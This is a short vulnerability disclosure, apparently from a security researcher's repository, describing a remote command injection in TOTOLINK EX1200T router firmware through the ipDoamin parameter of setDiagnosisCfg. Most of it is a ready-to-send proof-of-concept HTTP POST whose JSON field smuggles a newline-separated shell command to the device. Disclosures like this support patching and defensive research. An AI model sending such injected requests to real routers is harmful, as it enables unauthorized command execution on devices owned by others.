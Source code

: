 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setDiagnosisCfg` of the file `lib/system.so` , we can control the`ipDoamin` to attack.

![image-20211019161001641](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019161001641.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setDiagnosisCfg","ipDoamin":"-h\nps>/web_cste/test1\n"}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)